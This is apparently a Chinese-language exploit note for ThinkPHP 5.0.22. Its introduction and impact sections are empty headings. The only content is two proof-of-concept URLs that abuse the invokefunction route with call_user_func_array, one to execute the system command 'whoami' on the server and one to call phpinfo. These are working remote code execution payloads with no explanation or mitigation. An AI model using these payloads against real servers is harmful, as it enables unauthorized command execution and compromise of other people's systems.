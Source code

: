 ```yaml
---
title: "Thinkphp 5.0.22"
id: zhfly3155
---
```


# Thinkphp 5.0.22

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

### 1、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=whoami 
```

### 2、poc

```
http://0-sec.org/?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=1 
```